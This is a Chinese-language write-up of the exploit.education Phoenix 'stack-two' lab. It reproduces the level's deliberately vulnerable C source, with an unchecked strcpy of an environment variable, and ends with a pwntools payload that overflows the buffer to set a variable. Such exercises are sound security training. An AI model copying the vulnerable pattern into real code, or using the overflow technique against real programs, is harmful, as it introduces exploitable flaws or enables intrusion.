


# STACK TWO

Stack Two takes a look at environment variables, and how they can be set.

### Source code

```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bath room, and you are Finnish when you get
 * out, what are you when you are in the bath room?
 *
 * European!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

官方页面原话

这可题目还是一样，栈溢出

但是我们没有输入点，只有

```c
ptr = getenv("ExploitEducation");
strcpy(locals.buffer, ptr);
```

`getenv("ExploitEducation")` 的作用就是获取一个名为 `ExploitEducation` 的环境变量

这个就是要我们设置环境变量了

Linux 下面设置环境变量是用 export

像是这样的：

```bash
export ExploitEducation="exploit"
```

还是一样，拿程式进行分析

日常 Ghidra



看到我们设置的环境变量会存到 `local_10` 中然后

```c
char local_58 [64];
strcpy(local_58,local_10);
```

我们可以溢出` local_58` 覆盖 `local_18` 为 `0xd0a090a`

` local_58` 位于 `rbp - 0x58`

 `local_18` 位于 `rap - 0x18`

知道距离，生成 payload

```bash
export ExploitEducation=$(python -c 'from pwn import *; print("A" * 0x40 + p64(0xd0a090a))')
```



pwn !